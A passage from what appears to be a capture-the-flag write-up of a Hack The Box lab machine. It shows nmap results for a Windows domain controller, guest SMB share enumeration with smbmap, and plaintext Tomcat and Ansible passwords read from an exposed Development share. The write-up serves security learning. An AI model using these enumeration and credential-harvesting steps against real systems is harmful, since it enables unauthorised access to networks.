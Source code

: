 ```
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN::AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2023-07-17T06:04:13+00:00; +4h00m00s from scanner time.
445/tcp  open  microsoft-ds?
8443/tcp open  ssl/https-alt
```

We can add all the domain names into our `/etc/hosts` file.&#x20;

### SMB Shares -> Ansible Creds

SMB allowed access to a few shares with no credentials:

```
$ smbmap -u 'guest' -p '' -H 10.129.9.12
[+] IP: 10.129.9.12:445 Name: 10.129.9.12                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Department Shares                                       NO ACCESS
        Development                                             READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share
```

There were quite a few items within the `Development` share, such as Ansible files nad stuff like that. Within the `/Automation/Ansible/PWM/templates` folder, we can find Tomcat creds:

```
$ cat tomcat-users.xml.j2 
<?xml version='1.0' encoding='cp1252'?>

<tomcat-users xmlns="http://tomcat.apache.org/xml" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
 xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
 version="1.0">

<user username="admin" password="T0mc@tAdm1n" roles="manager-gui"/>  
<user username="robot" password="T0mc@tR00t" roles="manager-script"/>

</tomcat-users>
```

Within the `ansible_inventory` file of `PWM`, we can find some credentials for Ansible:

```
$ cat ansible_inventory 
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignore
```
